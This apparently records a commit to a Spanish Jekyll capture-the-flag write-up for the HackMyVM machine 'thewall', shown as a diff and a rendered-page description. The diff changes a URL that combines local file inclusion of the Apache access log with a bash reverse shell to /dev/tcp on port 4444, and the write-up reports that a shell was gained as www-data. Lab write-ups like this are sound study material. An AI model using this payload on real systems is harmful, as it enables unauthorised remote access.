

Before and after one commit to BlackCage/BlackCage.github.io, a Jekyll site: the page built from all_collections/_posts/2022-11-27-thewall-hmv.md, in a window 1280 px wide and 900 px high, scrolled down 2375 px. Shown: the part 152-452 px from the top of the window, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update 2022-11-27-thewall-hmv.md

````diff
--- a/all_collections/_posts/2022-11-27-thewall-hmv.md
+++ b/all_collections/_posts/2022-11-27-thewall-hmv.md
@@ -60,7 +60,7 @@
 Ahora sí, estamos preparados para lanzar la Reverse Shell:
 
 ```
-http://192.168.1.114/includes.php?display_page=bash -c 'bash -i >%26 /dev/tcp/192.168.1.114/4444 0>%261'
+http://192.168.1.114/includes.php?display_page=/var/log/apache2/access.log&cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.1.114/4444 0>%261'
 ```
 Bien! Hemos recibido una Shell como `www-data`!
 
````
